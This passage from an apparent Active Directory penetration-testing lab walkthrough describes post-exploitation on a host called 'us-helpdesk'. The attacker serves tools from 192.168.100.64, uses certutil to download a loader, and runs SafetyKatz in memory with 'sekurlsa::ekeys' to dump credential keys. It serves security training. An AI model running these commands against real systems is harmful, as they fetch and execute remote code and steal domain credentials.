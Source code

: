 ![picture 37](images/429bbb7252be73333d04b47af025bb04bf4fe2d8e67d35057503048e19d733bb.png)  

As shown, we access `us-helpdesk` as Domain Admin.

<br/>

---

## Extract secrets from that machine for users and hunt for local admin privileges for the users

Locally use `python -m SimpleHTTPServer 80` to serve the tools.

Then on `us-helpdesk` download `Loader.exe`:

```
cd C:\Users\Public

certutil -urlcache -f http://192.168.100.64/Loader.exe .\Loader.exe
```

<br/>

Then load `SafetyKatz.exe` into memory:

```
Loader.exe -Path http://192.168.100.64/SafetyKatz.exe "sekurlsa::ekeys" "exit"
```
